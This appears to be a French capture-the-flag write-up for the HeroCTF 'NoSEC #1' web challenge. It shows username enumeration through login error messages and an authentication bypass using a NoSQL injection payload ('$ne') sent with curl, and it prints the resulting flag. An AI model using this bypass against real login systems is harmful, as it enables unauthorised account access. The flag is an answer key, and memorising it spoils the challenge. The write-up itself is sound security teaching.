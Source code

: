 # NoSEC #1

### Catégorie

Web

### Description

Vous devez vous connecter pour valider le challenge !

http://challs.heroctf.fr:3000/login

Format: Hero{flag}

### Auteur

xanhacks

### Solution

Nous pouvons deviner le nom d'utilisateur "admin" en fonction des messages d'erreurs retourner par l'application.
test:test => Not match with this username !
admin:test => Wrong password !

Les données de la requête de connexion sont envoyées au format JSON.

{"username": "admin","password": "test"}

Grâce à cette information et au nom du challenge (NoSEC), nous pouvons deviner assez rapidement que ce challenge
est porté sur l'injection NoSQL.

Nous testons donc un payload assez simple :

{"username":"admin","password":{"$ne":"notvalidpassword"}}

Le nom d'utilisateur est "admin" et le mot de passe n'est pas égal (not equal => $ne) à "notvalidpassword".

````sh
curl -X POST --header "Content-Type: application/json" challs.heroctf.fr:3000/login --data '{"username":"admin", "password": {"$ne": "toto"}}'
{"state":"success","msg":"You can validate this challenge with: Hero{NoSQL_1Nject1on_wAw_1597}"}
```

### Flag

Hero{NoSQL_1Nject1on_wAw_1597}
